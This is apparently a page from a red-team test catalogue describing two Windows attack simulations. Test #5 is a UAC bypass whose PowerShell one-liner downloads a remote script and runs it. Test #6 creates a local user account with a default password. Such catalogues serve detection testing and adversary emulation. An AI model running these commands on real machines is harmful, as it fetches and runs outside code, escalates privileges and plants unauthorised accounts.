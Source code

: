 




<br/>
<br/>

## Atomic Test #5 - Invoke-AppPathBypass
Note: Windows 10 only
Bypass is based on: https://enigma0x3.net/2017/03/14/bypassing-uac-using-app-paths/

**Supported Platforms:** Windows



#### Attack Commands: Run with `command_prompt`! 
```
Powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/enigma0x3/Misc-PowerShell-Stuff/a0dfca7056ef20295b156b8207480dc2465f94c3/Invoke-AppPathBypass.ps1'); Invoke-AppPathBypass -Payload 'C:\Windows\System32\cmd.exe'"
```






<br/>
<br/>

## Atomic Test #6 - PowerShell Add User
Using PS 5.1, add a user via CLI

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | username to add | string | atomic_user|
| full_name | Full name of user | string | Atomic Red Team|
| password | password to use | string | ATOM1CR3DT3@M|
| description | Brief description of account | string | Atomic Things|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 
```
New-LocalUser -FullName '#{full_name}' -Name '#{user_name}' -Password #{password} -Description '#{description}'
```





